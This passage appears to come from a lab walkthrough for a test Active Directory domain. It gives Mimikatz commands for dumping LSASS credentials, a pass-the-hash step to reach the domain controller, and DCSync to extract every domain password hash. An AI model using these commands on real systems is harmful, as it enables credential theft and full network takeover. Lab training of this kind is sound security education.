        .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
       .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
       ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
       ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
        '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

      mimikatz #
   ```

2. In the Mimikatz console, enable debug privileges:

   ```bash
   privilege::debug
   ```

3. Dump the credentials from LSASS:

   ```bash
   sekurlsa::logonpasswords
   ```

**Explanation:**

- `privilege::debug`: Grants the necessary privileges to access system processes.
- `sekurlsa::logonpasswords`: Extracts authentication material from the Local Security Authority Subsystem Service (LSASS).

**Output Interpretation:**

Look for the Administrator account details:

```text
         * Username : domad
         * Domain   : ADLAB
         * NTLM     : cff48581d56085119bddffacfae51aeb
```

> **Note:** the NTLM hash value & close the win10adm window

---

### Use Pass-the-Hash to Access the Domain Controller

Now that we have the NTLM hash of the **Domain Admin** account (`domad`), we can use the **Pass-the-Hash (PTH)** attack to gain access to the Domain Controller (DC) and dump all Active Directory (AD) hashes. Follow the steps below:

1. **Run Pass-the-Hash with Mimikatz**:
   In the Mimikatz console (still on the compromised workstation), execute the **Pass-the-Hash** attack by running:

   ```bash
   sekurlsa::pth /user:domad /domain:adlab.local /ntlm:cff48581d56085119bddffacfae51aeb /run:cmd.exe
   ```

   **Explanation**:

   - `sekurlsa::pth`: Initiates the pass-the-hash attack.
   - `/user:domad`: Username of the Domain Admin account.
   - `/domain:adlab.local`: The domain name.
   - `/ntlm:cff48581d56085119bddffacfae51aeb`: The NTLM hash of the **domad** account.
   - `/run:cmd.exe`: This opens a new command prompt under the context of the **domad** account.

   A new command prompt should open as **domad**. Now, verify your access to the Domain Controller by trying to access its administrative share:

2. **List the contents of the Domain Controller’s C$ share**:

   ```bash
   dir \\192.168.56.10\c$
   ```

   **Explanation**:

   - `192.168.56.10` is the IP address of the Domain Controller.
   - `C$` is the administrative share.

   If you see the directory contents, the **Pass-the-Hash** was successful, and you have administrative access to the Domain Controller.

### Dump All Hashes from Active Directory

Now that you have administrative access to the Domain Controller, run **Mimikatz** to dump all the password hashes stored in Active Directory.

1. **Run Mimikatz**:
   Navigate to the location of **Mimikatz**:

   ```bash
   cd C:\temp\
   ```

   Run **Mimikatz**

   ```bash
   .\mimikatz\x64\mimikatz.exe
   ```

2. **Enable Privilege Debugging**:
   Once Mimikatz is running, enable the necessary privileges to access sensitive memory locations:

   ```bash
   privilege::debug
   ```

3. **Dump All AD Hashes Using DCSync**:
   Execute the **DCSync** command to dump the password hashes for all users in the domain:

   ```bash
   lsadump::dcsync /domain:adlab.local /all /csv
   ```

   **Explanation**:

   - `lsadump::dcsync`: Extracts password hashes from the Domain Controller without touching the disk.
   - `/domain:adlab.local`: Specifies the target domain.
   - `/all`: Dumps password hashes for all domain users.
   - `/csv`: Outputs the results in CSV format for easy processing.

   The output will include all user account details, including their **NTLM** password hashes, which you can use for further attacks or analysis.

With all the domain hashes at your disposal, you effectively control the entire network, completing the objective of gaining full domain dominance.
